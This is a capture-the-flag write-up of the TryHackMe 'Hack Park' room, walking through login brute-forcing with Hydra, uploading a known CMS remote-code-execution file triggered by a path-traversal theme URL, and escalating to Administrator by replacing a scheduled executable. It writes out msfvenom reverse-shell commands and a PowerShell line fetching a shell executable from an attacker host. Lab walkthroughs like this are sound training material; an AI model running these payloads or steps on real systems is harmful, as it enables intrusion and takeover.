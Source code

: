 # This is a writeup of: Hack Park from TryHackMe
## Difficulty: Medium

---

Name: Alexander Spiesberger   
Contact: alex.spiesberger@gmail.com  
Date: 3 March 2021

---

![CTF](assets/1.png)

We first start, as always with the scan, nmap, gobuster and nikto:   

![scanning](assets/2.png)

While waiting for the scan to end, we can look a bit around on the website.   
We find a login, a contact form and other stuff.   
Gobuster and Nikto both found a robots.txt file, we go and take a look at it, but nothing too crazy.   
On the task they tell us to brute force the login, I actually don't find any credentials, so I must admit I took the hint.  
So I know now, that the username is admin.  
To brute it, I intercept the request with burp: 

![brutpsuite](assets/3.png)

You can then copy what can be seen in the screenshot.   
We will feed this to hydra:   

![hydra](assets/4.png)

Quick explaination of what is done here:   
- First change is to were the file is (color: red)
- Second change is to the USER (color: green)
- Third change is to PASS (color: blue)
- Last change is the error message (color: yellow)

![error msg](assets/error.png)

With the hydra launched, we get back a password, YAY:

![pass](assets/5.png)

We can now connect to it:

![connection](assets/6.png)

So, we are now connected to a CMS as, normally admin.   
We search a version number, and find one in the about section:  

![version](assets/7.png)

We find on searchsploit a remote code execution for this version.  
We copy it to our folder and see what it does:   

![searchsploit](assets/8.png)

It is really well explained in the file, so I do what they say:  

![file](assets/9.png)

- We change the IP and PORT.      
- We rename it: *"PostView.ascx"* 
- And we then have to upload our file:
  1) we go to *"published posts"*
  2) open the post *"Welcome to HackPark"* 
  3) click on the file manager (open file symbol)
  4) We upload our file named: *"PostView.ascx"*
- Then go to this link with a listener running, it should trigger it: http://<IP>/?theme=../../App_Data/files

![url](assets/10.png)

The listener that gives us our shell:   

![listener](assets/11.png)

Ok, we are now connected to the machine.   
We, we can now take the way with metasploit or without.
Without metasploit, you can create a payload to get a more stable shell, possible payloads:   
- *msfvenom -p windows/shell_reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<IP> LPORT=<PORT> -f exe -o test.exe*
  
Then just pull it with powershell or other technique to a writable directory:
- powershell -c "Invoke-WebRequest -Uri '<ip>:<port>/shell.exe' -OutFile 'C:\Windows\Temp\shell.exe'"

I will do it here with metasploit to get a meterpreter and then continue in a way that works for both.     
Payload:   
- *"msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe"*

![payload](assets/12.png)

I then download it to the other machine by setting a pyton server and downloading it with another method:  

![certutil](assets/13.png)

I then set up my multi/handler to get my meterpreter shell back:   

![multi/handler](assets/14.png)

We launch the exectubale ... and, we get our meterpreter:   

![meterreter](assets/15.png)

Ok I will now upload winPEAS to find a way to escalate, because we are still *"IIS APPPOOL\Blog"*.   

![upload winpeas](assets/16.png)

We can then launch it:   

![winPEAS](assets/17.png)

After looking a bit I found a service running that looked interesting:   

![windowsScheduler](assets/18.png)

So I went to *"C:\Program Files (x86)\SystemScheduler"*, continued to the only directory: *"Events"* and downloaded the only txt file:  

![downlaod](assets/19.png)

We then read the log file and see that it calls a process, *"Message.exe"* as Administrator:   

![log file](assets/20.png)

So I went to take a look at the binary, maybe we can delete it to replace it with another file that would have a payload.   
But we can't, It took me some time to understand that I could just rename it...   
So I did this, I renamed the file and created a new one and hoped that I could upload a new file with the name *"Message.exe"* to this location:   
We could here actually just rename the older file and exit the meterpreter shell, create a new one, and get root.   
And it would clearly be better to have a meterpreter.        

![payload](assets/21.png)

Anyway, we upload this, rename the last file and set up a listener:

![upload](assets/22.png)

The only thing to do now, is to wait and let the magic happen!  

![magic](assets/23.png)

The magic happened, and we are now Administrator, we can go and read all the flags:    

![jeff](assets/24.png)

![Administrator](assets/25.png)

And, we are now done with all those sweet flags.   

----

I hope you enjoyed my walkthrough and that is was clear.   
For any questions regarding this CTF or any other subject this is my email: alex.spiesberger@gmail.com   
 


